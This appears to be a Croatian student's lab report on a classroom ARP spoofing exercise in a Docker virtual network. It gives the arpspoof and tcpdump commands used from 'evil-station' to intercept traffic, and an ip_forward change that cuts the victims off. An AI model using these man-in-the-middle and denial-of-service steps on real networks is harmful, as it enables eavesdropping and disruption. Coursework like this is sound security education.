 # Lab. vježbe 1 - Arp Spoofing

# Uvod

![Untitled](Lab%20vjez%CC%8Cbe%201%20-%20Arp%20Spoofing%2076ebdd744ee94ec78998a371c0459b5f/Untitled.png)

Prvom laboratorijskom vježbom demonstrirali smo ranjivost ARP protokola, koji mapira IP adrese s MAC adresama računala u mreži. Napadi koje smo izveli bili su man in the middle i denial of service napadi. 

U primjeru na slici, računalo 4 presreće komunikaciju između računala 2 i 5, odnosno predstavlja se kao računalo 5 da bi "prisluškivalo" komunikaciju među njima. 

# Postavljanje

Nakon pokretanja potrebnih servisa (Windows i Ubuntu terminali), kloniranjem github repozitorija:

```
git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)
```

u direktoriju smo dobili '[start.sh](http://start.sh)' i '[stop.sh](http://stop.sh)' skripte za pokretanje (zaustavljanje) virtualnog mrežnog scenarija. Pokrećemo docker:

```
docker exec -it <station-name> bash 
```

Nakon što smo saznali IP i MAC adrese svakog računala u mreži pomoću naredbe 

```
ifconfig -a
```

saznajemo sljedeće podatke o trima računalima koje koristimo:

**station-1**

 `IP: 172.22.0.2
 
 MAC: 02:42:ac:16:00:02`

**station-2**

 `IP: 172.22.0.4
 
 MAC: 02:42:ac:16:00:04`

**evil-station**

 `IP: 172.22.0.3
 
 MAC: 02:42:ac:16:00:03`

# Izvođenje

Uspostavljanjem veze između station-1 i station-2 pomoću netstata, simuliramo "razgovor" između dva računala. Kako bi napadač evil-station mogao "prisluškivati", pokrećemo naredbu

```
tcpdump
```

odnosno  za ARP spoofing

```
arpspoof -t station-1 -r station-2
```

čime evil-station ima uvid u komunikaciju koja se odvija između station-1 i station-2. To smo postigli mijenjanjem MAC adrese evil-stationa u MAC adresu station-2 (`02:42:ac:16:00:04`). 

Na kraju, da bismo napravili denial of service napad koristili smo naredbu 

```
echo 0 > /proc/sys/net/ipv4/ip_forward
```

čime smo spriječili komunikaciju između station-1 i station-2.